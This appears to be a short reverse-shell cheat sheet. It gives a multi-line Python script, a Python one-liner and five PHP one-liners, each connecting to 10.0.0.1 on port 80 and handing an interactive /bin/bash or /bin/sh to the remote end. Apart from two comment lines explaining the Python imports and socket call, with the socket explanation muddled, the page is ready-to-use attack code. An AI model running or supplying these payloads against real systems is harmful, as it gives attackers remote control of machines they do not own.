 `import socket`
`import subprocess`
`import os`
`import pty;`

`s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`
`s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0)`

`os.dup2(s.fileno(),1)`
`os.dup2(s.fileno(),2)`

`pty.spawn("/bin/bash")`

# import socket,subprocess,os; instructs Python to immediately import the modules needed to interact with the operating system and establish a valid TCP connection.

# By using s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);, we declare a variable called "s" (short for TCP socket) and set the value as the main function of our imported socket module.

# Separate Python Reverse Shell
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`


# Another Example Of Reverse Shell
`php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
`php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'`
`php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'`
`php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'`
`php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'`